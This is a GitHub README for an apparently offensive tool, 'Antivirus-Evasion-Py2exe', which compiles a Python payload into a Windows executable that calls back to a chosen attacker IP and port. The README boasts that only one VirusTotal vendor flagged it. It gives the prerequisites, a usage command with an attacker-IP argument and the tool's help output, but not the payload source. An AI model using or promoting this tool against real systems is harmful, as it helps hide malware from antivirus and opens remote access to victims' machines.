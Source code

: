 ![GitHub language count](https://img.shields.io/github/languages/count/0xCyberY/ehtk)
![GitHub repo size](https://img.shields.io/github/repo-size/0xCyberY/ehtk)
![Lines of code](https://img.shields.io/tokei/lines/github/0xCyberY/ehtk)
![GitHub](https://img.shields.io/github/license/0xCyberY/ehtk)
![GitHub commit activity](https://img.shields.io/github/commit-activity/w/0xCyberY/ehtk)
![Twitter Follow](https://img.shields.io/twitter/follow/0xCyberY?style=social)

# Antivirus-Evasion-Py2exe
Simple python script to evade antiviruses on fully patched and updated Windows environments using a python then converted exe payload.

By the time of this writing, the payload was flagged as malicious by only one vendor on Virus Total.

# Note: This script works only on Windows OS

# Prerequisite:
1. [Install Python 2.7.16 x86 for Windows](https://www.python.org/ftp/python/2.7.16/python-2.7.16.msi)
2. [Install Py2exe 32 bits for Python 2.7](https://sourceforge.net/projects/py2exe/files/py2exe/0.6.9/py2exe-0.6.9.win32-py2.7.exe/download)

## Usage:
`python aepy2exe.py -e py2exe -ip 192.168.1.10 -p 443`

``` C:\>python aepy2exe.py -h
                                Antivirus Evasion Py2exe
 ,.      .                         ,--.                         ;-.      ,-.
/  \     |   o     o               |                o           |  )        )
|--| ;-. |-  . . , . ;-. . . ,-.   |-   . , ,-: ,-. . ,-. ;-.   |-'  . .   /  ,-. . , ,-.
|  | | | |   | |/  | |   | | `-.   |    |/  | | `-. | | | | |   |    | |  /   |-'  X  |-'
'  ' ' ' `-' ' '   ' '   `-` `-'   `--' '   `-` `-' ' `-' ' '   '    `-| '--' `-' ' ` `-'
                                                                     `-'
usage: aepy2exe.py [-h] [-e EXECUTE] [-ip ATTACKER_IP] [-p PORT]

Antivirus Evasion Py2exe

optional arguments:
  -h, --help            show this help message and exit
  -e EXECUTE, --execute EXECUTE
                        execute py2exe
  -ip ATTACKER_IP, --attacker_ip ATTACKER_IP
                        specified attacker IP
  -p PORT, --port PORT  specified attcaker port

Example:
        C:\>python aepy2exe.py -e py2exe -ip <ip_address> -p <port>
        C:\>python aepy2exe.py -e py2exe -ip 192.168.1.10 -p 443 
```

# Conclusion
Keep in mind that attempting antivirus bypass is a game. Whenever a new evasion technique gets popular, antivirus vendors will eventually learn about itand update their signatures database to block it. Then, new evasion techniques will a rise, which will make vendors to add it to their signature database, and so on.
